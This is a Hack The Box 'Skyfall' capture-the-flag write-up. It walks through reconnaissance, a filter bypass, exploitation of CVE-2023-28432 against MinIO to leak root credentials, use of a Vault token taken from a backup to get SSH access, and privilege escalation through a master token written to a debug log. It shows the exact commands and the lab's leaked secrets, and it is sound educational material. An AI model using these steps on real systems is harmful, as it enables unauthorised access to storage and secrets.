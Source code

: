# Skyfall Write-up

<img src="https://labs.hackthebox.com/storage/avatars/e43c6cdfe71e56188e5c2c4f39f5c180.png" width="200" height="200">

## Nmap

 `nmap -sC -sV 10.10.11.254`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 65:70:f7:12:47:07:3a:88:8e:27:e9:cb:44:5d:10:fb (ECDSA)
    |_  256 74:48:33:07:b7:88:9d:32:0e:3b:ec:16:aa:b4:c8:fe (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: Skyfall - Introducing Sky Storage!
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

skyfall.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/4bf045f4-8e04-45d1-b4e2-ee9803011ec3)

On the source page, we found the `demo.skyfall.htb` subdomain

![image](https://github.com/zer00d4y/writeups/assets/128820441/4290b0a6-ec98-4422-9775-d6933c0533eb)

demo.skyfall.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/187c409f-463c-4b81-a55c-b6ba1ead873a)

Demo login: `guest` / `guest` 

![image](https://github.com/zer00d4y/writeups/assets/128820441/49975c2d-f9f4-46b2-99d9-976ebec744fd)

Click to `MinIO Metrics` demo.skyfall.htb/metrics

![image](https://github.com/zer00d4y/writeups/assets/128820441/2c1dc548-86e5-46ef-80af-33c2c4633081)

Try to bypass the filter by using the symbol `%0a` demo.skyfall.htb/metrics%0a

![image](https://github.com/zer00d4y/writeups/assets/128820441/89a39e7d-d94a-460b-b019-6768773246cd)

From here we find the address of the MinIO cluster 

prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster

![image](https://github.com/zer00d4y/writeups/assets/128820441/8de2ded9-d9a5-4243-9082-da94e03d4108)

CVE-2023-28432

https://github.com/acheiii/CVE-2023-28432

Add `/minio/bootstrap/v1/verify` to the cluster link and replace the `GET` request with a `POST` request

![image](https://github.com/zer00d4y/writeups/assets/128820441/d5339767-e86f-4eec-978e-9f92a0a23734)

    {"MinioEndpoints":[{"Legacy":false,"SetCount":1,"DrivesPerSet":4,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true}],"CmdLine":"http://minio-node{1...2}/data{1...2}","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_BROWSER":"off","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_PROMETHEUS_AUTH_TYPE":"public","MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key","MINIO_UPDATE":"off","MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"}}

Now, we found Minio root user and password

"MINIO_ROOT_USER":"`5GrE1B2YGGyZzNHZaIww`"

"MINIO_ROOT_PASSWORD":"`GkpjkmiVmpFuL2d3oRx0`"

Download and install the minio client: https://min.io/docs/minio/linux/reference/minio-mc.html

    curl https://dl.min.io/client/mc/release/linux-amd64/mc \
      --create-dirs \
      -o $HOME/minio-binaries/mc
      
    chmod +x $HOME/minio-binaries/mc

    export PATH=$PATH:$HOME/minio-binaries/

    mc alias set myminio http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0

    mc admin info myminio

![image](https://github.com/zer00d4y/writeups/assets/128820441/67eab23b-fbcb-4fe8-9b3f-c3c0afa6d9e0)

![image](https://github.com/zer00d4y/writeups/assets/128820441/375604e4-aef4-4f39-9c3d-55152af4c2cd)

Let's list all files with their versions and download the backup file

    mc ls --recursive --versions myminio

![image](https://github.com/zer00d4y/writeups/assets/128820441/b06bc936-1d22-4de6-9723-808f745fb548)

![image](https://github.com/zer00d4y/writeups/assets/128820441/2c5a44e3-2399-4ce9-92be-b4fc04e20007)

cat .bashrc

The `.bashrc` file contains the address and token for Vault

![image](https://github.com/zer00d4y/writeups/assets/128820441/8a2d8bd7-5343-48ce-aed6-3bedbc2ca9c1)

    export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
    export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"

add volt address to /etc/hosts

Download vault 

    wget https://releases.hashicorp.com/vault/1.15.5/vault_1.15.5_linux_amd64.zip
    unzip vault_1.15.5_linux_amd64.zip
    export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
    ./vault login
    hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE
    ./vault token capabilities ssh/roles
    list
    ./vault list ssh/roles

![image](https://github.com/zer00d4y/writeups/assets/128820441/209632af-b0a5-4c06-9398-8b2ca4fb7e5d)

![image](https://github.com/zer00d4y/writeups/assets/128820441/7252b43a-3e8c-47c2-9d30-75e98b967274)

    ./vault ssh -role dev_otp_key_role -mode OTP -strict-host-key-checking=no askyy@10.10.11.254

(askyy@10.10.11.254) Password is OTP session id

![image](https://github.com/zer00d4y/writeups/assets/128820441/92e4a05f-c5c7-4716-b41c-d48fa4bf50b8)

Get the user flag

![image](https://github.com/zer00d4y/writeups/assets/128820441/67def74a-c3ea-49d6-968e-272b94e29153)

## Privilege Escalation

![image](https://github.com/zer00d4y/writeups/assets/128820441/95800080-81e9-4b33-a10c-5a87f57563cf)

    askyy@skyfall:~$ rm -rf debug.log
    askyy@skyfall:~$ touch debug.log
    askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd
    [+] Reading: /etc/vault-unseal.yaml
    [-] Security Risk!
    [+] Found Vault node: http://prd23-vault-internal.skyfall.htb
    [>] Check interval: 5s
    [>] Max checks: 5
    [>] Checking seal status
    [+] Vault sealed: false
    askyy@skyfall:~$ cat debug.log
    Initializing logger...
    Reading: /etc/vault-unseal.yaml
    Security Risk!
    Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
    Found Vault node: http://prd23-vault-internal.skyfall.htb
    Check interval: 5s
    Max checks: 5
    Establishing connection to Vault...
    Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
    Checking seal status
    Vault sealed: false
    exit

  connect as root

    export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
    ./vault login 
    hvs.I0ewVsmaKU1SwVZAKR3T0mmG
    ./vault ssh -role admin_otp_key_role -mode OTP -strict-host-key-checking=no root@10.10.11.254
    ./vault ssh -role admin_otp_key_role -mode OTP -strict-host-key-checking=no root@10.10.11.254

![image](https://github.com/zer00d4y/writeups/assets/128820441/6a7611cf-309e-4f93-8e70-17a6d206ec57)

![image](https://github.com/zer00d4y/writeups/assets/128820441/d00a1b26-1498-42a2-974b-e5905899cd92)

Get the root flag 

![image](https://github.com/zer00d4y/writeups/assets/128820441/36125105-82f3-4b0a-87a9-d9a3092522b5)


